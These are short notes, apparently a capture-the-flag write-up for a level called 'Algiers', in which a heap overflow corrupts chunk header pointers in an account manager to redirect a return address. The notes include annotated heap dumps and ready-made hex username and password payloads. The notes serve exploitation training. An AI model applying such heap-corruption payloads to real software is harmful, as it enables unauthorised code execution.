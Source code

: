 # Algiers

New account manager which maps user to pins - 4 digits

Malloc 0x10

Accepts 0x30 in first input

Return address at 4390

In the heap, there seems to be some address that are used that are stored in front of each buffer. These can probably be manipulated to control the program

```
2400:   0824 0010 0000 0000 0824 1e24 2100 4141   .$.......$.$!.AA
2410:   4141 4141 4141 0000 0000 0000 0000 0824   AAAAAA.........$
2420:   3424 2100 3132 3334 0000 0000 0000 0000   4$!.1234........
2430:   0000 0000 1e24 0824 9c1f 0000 0000 0000   .....$.$........
```

"Header" of password buffer `241e:   0824 3424 2100`

0x2408 definitely seems to be being used as an address to point to the header of the username buffer

If we look at the header of the username buffer, the second argument is pointer to the header of the password buffer

```
2400:   0824 0010 0000 0000 0824 1e24 2100 4141   .$.......$.$!.AA
2410:   4141 4141 4141 0000 0000 0000 0000 0824   AAAAAA.........$
2420:   0824 c21f 3132 3334 0000 0000 0000 0000   .$..1234........
2430:   0000 0000 1e24 0824 9c1f 0000 0000 0000   .....$.$........
```

1e24 - value to be placed here (ret add) which is 0x4690

and 

4564
455e

3424 - Destination to be placed here dest is 439a

Username
41414141414141414141414141414141964304441e01

Pass:
414141414141414141414141414141410943